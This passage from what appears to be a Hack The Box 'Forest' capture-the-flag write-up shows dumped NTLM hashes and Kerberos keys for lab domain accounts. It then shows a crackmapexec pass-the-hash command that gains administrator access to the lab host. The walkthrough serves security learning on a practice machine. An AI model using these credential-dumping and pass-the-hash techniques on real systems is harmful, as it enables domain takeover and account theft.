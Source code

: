     htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
    htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
    htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f::: 
    htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44::: 
    htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05::: 
    htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
    htb.local\sebastien:aes256-cts-hmac-sha1-96:fa87efc1dcc0204efb0870cf5af01ddbb00aefed27a1bf80464e77566b543161
    htb.local\sebastien:aes128-cts-hmac-sha1-96:18574c6ae9e20c558821179a107c943a
    htb.local\sebastien:des-cbc-md5:702a3445e0d65b58
    htb.local\lucinda:aes256-cts-hmac-sha1-96:acd2f13c2bf8c8fca7bf036e59c1f1fefb6d087dbb97ff0428ab0972011067d5
    htb.local\lucinda:aes128-cts-hmac-sha1-96:fc50c737058b2dcc4311b245ed0b2fad
    htb.local\lucinda:des-cbc-md5:a13bb56bd043a2ce
    htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
    htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
    htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
    [*] Kerberos keys grabbed
    htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac92
    63bc913
    htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
    htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
    ```
    
- We will use ***crackmapexec*** to check if our password works or not. To do that run:
    
    ```bash
    ➜  ~ crackmapexec smb 10.10.10.161 -u administrator -H aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
    SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
    SMB         10.10.10.161    445    FOREST           [+] htb.local\administrator:32693b11e6aa90eb43d32c72a07ceea6 (Pwn3d!)
    ```
    
    ![crackmapexec](/assets/img/HTB/Forest_crackmapexec.png)
    
